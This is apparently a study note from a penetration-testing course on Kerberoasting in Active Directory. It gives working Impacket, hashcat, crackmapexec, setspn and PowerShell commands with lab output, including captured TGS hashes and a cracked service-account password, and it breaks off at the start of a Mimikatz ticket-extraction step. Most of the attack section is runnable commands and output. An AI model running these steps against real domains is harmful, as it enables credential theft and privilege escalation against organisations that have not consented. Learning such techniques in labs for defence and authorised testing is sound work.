




# Kerberoasting

... is a lateral movement/privilege escalation technique in AD environments. This attack targets Service Principal Names (_SPN_) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts. Any domain user can request a Kerberos ticket for any service account in the same domain. This is also possible across forest trusts if authentication is permitted across the trust boundary. All you need to perform is a Kerberoasting attack in an account's cleartext passwort (_or NTLM hash_), a shell in the context of a domain user account, os SYSTEM level access on a domain-joined host.

Domain accounts running services are often local administrators, if not highly privileged domain accounts. Due to the distributed nature of systems, interacting services, and associated data transfers, service accounts may be granted administrator privileges on multiple servers across the enterprise. Many services require elevated privileges on various systems, so service accounts are often added to privileged groups, such as Domain Admins, either directly or via nested membership. Finding SPNs associated with highly privileged accounts in Windows environment is very common. Retrieving a Kerberos ticket for an account with an SPN does not by itself allow you to execute commands in the context of this account. However, the ticket is encrypted with the service account's NTLM hash, so the cleartext password can potentially by obtained by subjecting it to an offline brute-force attack.

Service accounts are often configured with weak or reused passwords to simplify administration, and sometimes the password is the same as the username. If the password for a domain SQL Server service account is cracked, you are likely to find yourself as a local admin on multiple servers, if not Domain Admin. Even if cracking a ticket obtained via Kerberoasting attack gives you a low-privilege user account, you can use it to craft service tickets for the service specified in the SPN. For example, if the SPN is set to MSSQL/SRV01, you can access the MSSQL service as sysadmin, enable the xp_cmdshell extended procedure and gain code execution on the target SQL server.

## From Linux

### with GetUserSPNs.py

#### Listing SPN Accounts

You can start by just gathering a listing of SPNs in the domain. To do this, you will need a set of valid domain credentials and the IP address of a DC. You can authenticate to the DC with a cleartext password, NT password hash, or even a Kerberos ticket. Entering the below command will generate a credential prompt and then a nicely formatted listing of all SPN accounts. From the output below, you can see that several accounts are members of the Domain Admin group. If you can retrieve and crack one of these tickets, it could lead to domain compromise. It is always worth investigating the group membership of all accounts because you may find an account with an easy-to-crack ticket that can help you further your goal of moving laterally/vertically in the target domain.

```bash
d41y@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>               
sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>               
MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>               
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>               
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>               
adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never> 
```

#### Requesting all TGS tickets

You can now pull all TGS tickets for offline processing using the ```-request``` flag. The TGS tickets will be output in a format that can be readily provided to Hashcat or John.

```bash
d41y@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>               
sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>               
MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>               
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>               
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>               
adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never>               


$krb5tgs$23$*BACKUPAGENT$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/BACKUPAGENT*$790ae75fc53b0ace5daeb5795d21b8fe$b6be1ba275e23edd3b7dd3ad4d711c68f9170bac85e722cc3d94c80c5dca6bf2f07ed3d3bc209e9a6ff0445cab89923b26a01879a53249c5f0a8c4bb41f0ea1b1196c322640d37ac064ebe3755ce888947da98b5707e6b06cbf679db1e7bbbea7d10c36d27f976d3f9793895fde20d3199411a90c528a51c91d6119cb5835bd29457887dd917b6c621b91c2627b8dee8c2c16619dc2a7f6113d2e215aef48e9e4bba8deff329a68666976e55e6b3af0cb8184e5ea6c8c2060f8304bb9e5f5d930190e08d03255954901dc9bb12e53ef87ed603eb2247d907c3304345b5b481f107cefdb4b01be9f4937116016ef4bbefc8af2070d039136b79484d9d6c7706837cd9ed4797ad66321f2af200bba66f65cac0584c42d900228a63af39964f02b016a68a843a81f562b493b29a4fc1ce3ab47b934cbc1e29545a1f0c0a6b338e5ac821fec2bee503bc56f6821945a4cdd24bf355c83f5f91a671bdc032245d534255aac81d1ef318d83e3c52664cfd555d24a632ee94f4adeb258b91eda3e57381dba699f5d6ec7b9a8132388f2346d33b670f1874dfa1e8ee13f6b3421174a61029962628f0bc84fa0c3c6d7bbfba8f2d1900ef9f7ed5595d80edc7fc6300385f9aa6ce1be4c5b8a764c5b60a52c7d5bbdc4793879bfcd7d1002acbe83583b5a995cf1a4bbf937904ee6bb537ee00d99205ebf5f39c722d24a910ae0027c7015e6daf73da77af1306a070fdd50aed472c444f5496ebbc8fe961fee9997651daabc0ef0f64d47d8342a499fa9fb8772383a0370444486d4142a33bc45a54c6b38bf55ed613abbd0036981dabc88cc88a5833348f293a88e4151fbda45a28ccb631c847da99dd20c6ea4592432e0006ae559094a4c546a8e0472730f0287a39a0c6b15ef52db6576a822d6c9ff06b57cfb5a2abab77fd3f119caaf74ed18a7d65a47831d0657f6a3cc476760e7f71d6b7cf109c5fe29d4c0b0bb88ba963710bd076267b889826cc1316ac7e6f541cecba71cb819eace1e2e2243685d6179f6fb6ec7cfcac837f01989e7547f1d6bd6dc772aed0d99b615ca7e44676b38a02f4cb5ba8194b347d7f21959e3c41e29a0ad422df2a0cf073fcfd37491ac062df903b77a32101d1cb060efda284cae727a2e6cb890f4243a322794a97fc285f04ac6952aa57032a0137ad424d231e15b051947b3ec0d7d654353c41d6ad30c6874e5293f6e25a95325a3e164abd6bc205e5d7af0b642837f5af9eb4c5bca9040ab4b999b819ed6c1c4645f77ae45c0a5ae5fe612901c9d639392eaac830106aa249faa5a895633b20f553593e3ff01a9bb529ff036005ec453eaec481b7d1d65247abf62956366c0874493cf16da6ffb9066faa5f5bc1db5bbb51d9ccadc6c97964c7fe1be2fb4868f40b3b59fa6697443442fa5cebaaed9db0f1cb8476ec96bc83e74ebe51c025e14456277d0a7ce31e8848d88cbac9b57ac740f4678f71a300b5f50baa6e6b85a3b10a10f44ec7f708624212aeb4c60877322268acd941d590f81ffc7036e2e455e941e2cfb97e33fec5055284ae48204d
$krb5tgs$23$*SOLARWINDSMONITOR$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/SOLARWINDSMONITOR*$993de7a8296f2a3f2fa41badec4215e1$d0fb2166453e4f2483735b9005e15667dbfd40fc9f8b5028e4b510fc570f5086978371ecd81ba6790b3fa7ff9a007ee9040f0566f4aed3af45ac94bd884d7b20f87d45b51af83665da67fb394a7c2b345bff2dfe7fb72836bb1a43f12611213b19fdae584c0b8114fb43e2d81eeee2e2b008e993c70a83b79340e7f0a6b6a1dba9fa3c9b6b02adde8778af9ed91b2f7fa85dcc5d858307f1fa44b75f0c0c80331146dfd5b9c5a226a68d9bb0a07832cc04474b9f4b4340879b69e0c4e3b6c0987720882c6bb6a52c885d1b79e301690703311ec846694cdc14d8a197d8b20e42c64cc673877c0b70d7e1db166d575a5eb883f49dfbd2b9983dd7aab1cff6a8c5c32c4528e798237e837ffa1788dca73407aac79f9d6f74c6626337928457e0b6bbf666a0778c36cba5e7e026a177b82ed2a7e119663d6fe9a7a84858962233f843d784121147ef4e63270410640903ea261b04f89995a12b42a223ed686a4c3dcb95ec9b69d12b343231cccfd29604d6d777939206df4832320bdd478bda0f1d262be897e2dcf51be0a751490350683775dd0b8a175de4feb6cb723935f5d23f7839c08351b3298a6d4d8530853d9d4d1e57c9b220477422488c88c0517fb210856fb603a9b53e734910e88352929acc00f82c4d8f1dd783263c04aff6061fb26f3b7a475536f8c0051bd3993ed24ff22f58f7ad5e0e1856a74967e70c0dd511cc52e1d8c2364302f4ca78d6750aec81dfdea30c298126987b9ac867d6269351c41761134bc4be67a8b7646935eb94935d4121161de68aac38a740f09754293eacdba7dfe26ace6a4ea84a5b90d48eb9bb3d5766827d89b4650353e87d2699da312c6d0e1e26ec2f46f3077f13825764164368e26d58fc55a358ce979865cc57d4f34691b582a3afc18fe718f8b97c44d0b812e5deeed444d665e847c5186ad79ae77a5ed6efab1ed9d863edb36df1a5cd4abdbf7f7e872e3d5fa0bf7735348744d4fc048211c2e7973839962e91db362e5338da59bc0078515a513123d6c5537974707bdc303526437b4a4d3095d1b5e0f2d9db1658ac2444a11b59ddf2761ce4c1e5edd92bcf5cbd8c230cb4328ff2d0e2813b4654116b4fda929a38b69e3f9283e4de7039216f18e85b9ef1a59087581c758efec16d948accc909324e94cad923f2487fb2ed27294329ed314538d0e0e75019d50bcf410c7edab6ce11401adbaf5a3a009ab304d9bdcb0937b4dcab89e90242b7536644677c62fd03741c0b9d090d8fdf0c856c36103aedfd6c58e7064b07628b58c3e086a685f70a1377f53c42ada3cb7bb4ba0a69085dec77f4b7287ca2fb2da9bcbedc39f50586bfc9ec0ac61b687043afa239a46e6b20aacb7d5d8422d5cacc02df18fea3be0c0aa0d83e7982fc225d9e6a2886dc223f6a6830f71dabae21ff38e1722048b5788cd23ee2d6480206df572b6ba2acfe1a5ff6bee8812d585eeb4bc8efce92fd81aa0a9b57f37bf3954c26afc98e15c5c90747948d6008c80b620a1ec54ded2f3073b4b09ee5cc233bf7368427a6af0b1cb1276ebd85b45a30

<SNIP>
```

#### Requesting a Single TGS

You can also be more targeted and request just the TGS ticket for a specific account.

```bash
d41y@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name    MemberOf                                             PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  ------  ---------------------------------------------------  --------------------------  ---------  ----------
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:13:31.639334  <never>               


$krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/sqldev*$4ce5b71188b357b26032321529762c8a$1bdc5810b36c8e485ba08fcb7ab273f778115cd17734ec65be71f5b4bea4c0e63fa7bb454fdd5481e32f002abff9d1c7827fe3a75275f432ebb628a471d3be45898e7cb336404e8041d252d9e1ebef4dd3d249c4ad3f64efaafd06bd024678d4e6bdf582e59c5660fcf0b4b8db4e549cb0409ebfbd2d0c15f0693b4a8ddcab243010f3877d9542c790d2b795f5b9efbcfd2dd7504e7be5c2f6fb33ee36f3fe001618b971fc1a8331a1ec7b420dfe13f67ca7eb53a40b0c8b558f2213304135ad1c59969b3d97e652f55e6a73e262544fe581ddb71da060419b2f600e08dbcc21b57355ce47ca548a99e49dd68838c77a715083d6c26612d6c60d72e4d421bf39615c1f9cdb7659a865eecca9d9d0faf2b77e213771f1d923094ecab2246e9dd6e736f83b21ee6b352152f0b3bbfea024c3e4e5055e714945fe3412b51d3205104ba197037d44a0eb73e543eb719f12fd78033955df6f7ebead5854ded3c8ab76b412877a5be2e7c9412c25cf1dcb76d854809c52ef32841269064661931dca3c2ba8565702428375f754c7f2cada7c2b34bbe191d60d07111f303deb7be100c34c1c2c504e0016e085d49a70385b27d0341412de774018958652d80577409bff654c00ece80b7975b7b697366f8ae619888be243f0e3237b3bc2baca237fb96719d9bc1db2a59495e9d069b14e33815cafe8a8a794b88fb250ea24f4aa82e896b7a68ba3203735ec4bca937bceac61d31316a43a0f1c2ae3f48cbcbf294391378ffd872cf3721fe1b427db0ec33fd9e4dfe39c7cbed5d70b7960758a2d89668e7e855c3c493def6aba26e2846b98f65b798b3498af7f232024c119305292a31ae121a3472b0b2fcaa3062c3d93af234c9e24d605f155d8e14ac11bb8f810df400604c3788e3819b44e701f842c52ab302c7846d6dcb1c75b14e2c9fdc68a5deb5ce45ec9db7318a80de8463e18411425b43c7950475fb803ef5a56b3bb9c062fe90ad94c55cdde8ec06b2e5d7c64538f9c0c598b7f4c3810ddb574f689563db9591da93c879f5f7035f4ff5a6498ead489fa7b8b1a424cc37f8e86c7de54bdad6544ccd6163e650a5043819528f38d64409cb1cfa0aeb692bdf3a130c9717429a49fff757c713ec2901d674f80269454e390ea27b8230dec7fffb032217955984274324a3fb423fb05d3461f17200dbef0a51780d31ef4586b51f130c864db79796d75632e539f1118318db92ab54b61fc468eb626beaa7869661bf11f0c3a501512a94904c596652f6457a240a3f8ff2d8171465079492e93659ec80e2027d6b1865f436a443b4c16b5771059ba9b2c91e871ad7baa5355d5e580a8ef05bac02cf135813b42a1e172f873bb4ded2e95faa6990ce92724bcfea6661b592539cd9791833a83e6116cb0ea4b6db3b161ac7e7b425d0c249b3538515ccfb3a993affbd2e9d247f317b326ebca20fe6b7324ffe311f225900e14c62eb34d9654bb81990aa1bf626dec7e26ee2379ab2f30d14b8a98729be261a5977fefdcaaa3139d4b82a056322913e7114bc133a6fc9cd74b96d4d6a2
```

#### Saving the TGS Ticket to an Output File

To facilitate offline cracking, it is always good to use the ```-outputfile``` flag to write the TGS ticket to a file that can be run using Hashcat.

```bash
d41y@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name    MemberOf                                             PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  ------  ---------------------------------------------------  --------------------------  ---------  ----------
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:13:31.639334  <never>  
```

#### Cracking the Ticket with Hashcat

```bash
d41y@htb[/htb]$ hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 

hashcat (v6.1.1) starting...

<SNIP>

$krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/sqldev*$81f3efb5827a05f6ca196990e67bf751$f0f5fc941f17458eb17b01df6eeddce8a0f6b3c605112c5a71d5f66b976049de4b0d173100edaee42cb68407b1eca2b12788f25b7fa3d06492effe9af37a8a8001c4dd2868bd0eba82e7d8d2c8d2e3cf6d8df6336d0fd700cc563c8136013cca408fec4bd963d035886e893b03d2e929a5e03cf33bbef6197c8b027830434d16a9a931f748dede9426a5d02d5d1cf9233d34bb37325ea401457a125d6a8ef52382b94ba93c56a79f78cb26ffc9ee140d7bd3bdb368d41f1668d087e0e3b1748d62dfa0401e0b8603bc360823a0cb66fe9e404eada7d97c300fde04f6d9a681413cc08570abeeb82ab0c3774994e85a424946def3e3dbdd704fa944d440df24c84e67ea4895b1976f4cda0a094b3338c356523a85d3781914fc57aba7363feb4491151164756ecb19ed0f5723b404c7528ebf0eb240be3baa5352d6cb6e977b77bce6c4e483cbc0e4d3cb8b1294ff2a39b505d4158684cd0957be3b14fa42378842b058dd2b9fa744cee4a8d5c99a91ca886982f4832ad7eb52b11d92b13b5c48942e31c82eae9575b5ba5c509f1173b73ba362d1cde3bbd5c12725c5b791ce9a0fd8fcf5f8f2894bc97e8257902e8ee050565810829e4175accee78f909cc418fd2e9f4bd3514e4552b45793f682890381634da504284db4396bd2b68dfeea5f49e0de6d9c6522f3a0551a580e54b39fd0f17484075b55e8f771873389341a47ed9cf96b8e53c9708ca4fc134a8cf38f05a15d3194d1957d5b95bb044abbb98e06ccd77703fa5be4aacc1a669fe41e66b69406a553d90efe2bb43d398634aff0d0b81a7fd4797a953371a5e02e25a2dd69d16b19310ac843368e043c9b271cab112981321c28bfc452b936f6a397e8061c9698f937e12254a9aadf231091be1bd7445677b86a4ebf28f5303b11f48fb216f9501667c656b1abb6fc8c2d74dc0ce9f078385fc28de7c17aa10ad1e7b96b4f75685b624b44c6a8688a4f158d84b08366dd26d052610ed15dd68200af69595e6fc4c76fc7167791b761fb699b7b2d07c120713c7c797c3c3a616a984dbc532a91270bf167b4aaded6c59453f9ffecb25c32f79f4cd01336137cf4eee304edd205c0c8772f66417325083ff6b385847c6d58314d26ef88803b66afb03966bd4de4d898cf7ce52b4dd138fe94827ca3b2294498dbc62e603373f3a87bb1c6f6ff195807841ed636e3ed44ba1e19fbb19bb513369fca42506149470ea972fccbab40300b97150d62f456891bf26f1828d3f47c4ead032a7d3a415a140c32c416b8d3b1ef6ed95911b30c3979716bda6f61c946e4314f046890bc09a017f2f4003852ef1181cec075205c460aea0830d9a3a29b11e7c94fffca0dba76ba3ba1f0577306555b2cbdf036c5824ccffa1c880e2196c0432bc46da9695a925d47febd3be10104dd86877c90e02cb0113a38ea4b7e4483a7b18b15587524d236d5c67175f7142cc75b1ba05b2395e4e85262365044d272876f500cb511001850a390880d824aec2c452c727beab71f56d8189440ecc3915c148a38eac06dbd27fe6817ffb1404c1f:database!
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, TGS-REP
Hash.Target......: $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$INLANEFREIG...404c1f
Time.Started.....: Tue Feb 15 17:45:29 2022, (10 secs)
Time.Estimated...: Tue Feb 15 17:45:39 2022, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   821.3 kH/s (11.88ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 8765440/14344386 (61.11%)
Rejected.........: 0/8765440 (0.00%)
Restore.Point....: 8749056/14344386 (60.99%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: davius07 -> darten170

Started: Tue Feb 15 17:44:49 2022
Stopped: Tue Feb 15 17:45:41 2022
```

#### Testing against a DC

```bash
d41y@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\sqldev:database! (Pwn3d!
```

## From Windows

### Semi-Manual Method

#### Enumeratin SPNs with setspn.exe

```
C:\htb> setspn.exe -Q */*

Checking domain DC=INLANEFREIGHT,DC=LOCAL
CN=ACADEMY-EA-DC01,OU=Domain Controllers,DC=INLANEFREIGHT,DC=LOCAL
        exchangeAB/ACADEMY-EA-DC01
        exchangeAB/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        TERMSRV/ACADEMY-EA-DC01
        TERMSRV/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        ldap/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/ForestDnsZones.INLANEFREIGHT.LOCAL
        ldap/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DomainDnsZones.INLANEFREIGHT.LOCAL

<SNIP>

CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        backupjob/veam001.inlanefreight.local
CN=SOLARWINDSMONITOR,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        sts/inlanefreight.local

<SNIP>

CN=sqlprod,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/SPSJDB.inlanefreight.local:1433
CN=sqlqa,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/SQL-CL01-01inlanefreight.local:49351
CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        adfsconnect/azure01.inlanefreight.local

Existing SPN found!
```

You will notice many different SPNs returned for the various hosts in the domain.

#### Targeting a Single User

Using PowerShell, you can request TGS tickets for an account in the shell above and load them into memory. Once they loaded into memory, you can extract them using Mimikatz.

```powershell
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:36:22 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```

- ```Add-Type``` cmdlet is used to add a .NET framework class to your PowerShell session, which can then be instantiated like any .NET framework object
- The ```-AssemblyName``` parameter allows you to specify an assembly that contains types that you are interested in using
- ```System.IdentityModel``` is a namespace that contains different classes for building security token services
- You'll then use the ```New-Object``` cmdlet to create an instance of .NET framework object
- You'll use the ```System.IdentityModel.Tokens``` namespace with the ```KerberosRequestorSecurityToken``` class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in your current logon session

#### Retrieving All Tickets using setspn.exe

You can also choose to retrieve all tickets using the same method, but this will also pull all computer accounts, so it is not optimal.

```powershell
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-3
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:56:18 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : exchangeAB/ACADEMY-EA-DC01
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-4
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:56:18 PM
ValidTo              : 2/24/2022 11:58:18 PM
ServicePrincipalName : kadmin/changepw
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-5
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:56:18 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : WSMAN/ACADEMY-EA-MS01
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

<SNIP>
```

The above command combines the previous command with setspn.exe to request tickets for all accounts with SPNs set.

Now that the tickets are loaded, you can use Mimikatz to extract the ticket(s) from memory.

#### Extracting Tickets from Memory with Mimikatz

```
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
